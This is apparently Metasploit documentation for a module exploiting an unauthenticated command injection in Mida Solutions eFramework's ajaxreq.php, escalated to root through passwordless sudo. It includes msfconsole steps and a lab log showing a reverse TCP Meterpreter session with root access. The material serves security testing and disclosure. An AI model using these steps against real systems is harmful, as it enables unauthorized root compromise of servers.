 ## Vulnerable Application

This module exploits a command injection vulnerability in Mida
Solutions eFramework version 2.9.0 and prior.

The `ajaxreq.php` file allows unauthenticated users to inject
arbitrary commands in the `PARAM` parameter to be executed as the
apache user. This user is permitted to execute any command as root
using sudo without providing a password, resulting in privileged
command execution as root.

This module has been successfully tested on Mida Solutions
eFramework-C7-2.9.0 virtual appliance.

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/mida_solutions_eframework_ajaxreq_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `set payload [payload]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`

## Options

### TARGETURI

Base path to eFramework (Default: `/`)

## Scenarios

```
msf6 > use exploit/linux/http/mida_solutions_eframework_ajaxreq_rce 
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > set rhosts 172.16.191.123
rhosts => 172.16.191.123
msf6 exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > check
[+] 172.16.191.123:443 - The target is vulnerable. uid=0(root) gid=0(root) groups=0(root)<br>
msf6 exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf6 exploit(linux/http/mida_solutions_eframework_ajaxreq_rce) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. uid=0(root) gid=0(root) groups=0(root)<br>
[*] Sending stage (3008420 bytes) to 172.16.191.123
[*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.123:42452) at 2020-08-30 08:42:27 -0400
[*] Command Stager progress - 100.00% done (897/897 bytes)

meterpreter > getuid
Server username: root @ eFramework-1 (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.16.191.123
OS           : CentOS 7.6.1810 (Linux 3.10.0-957.10.1.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
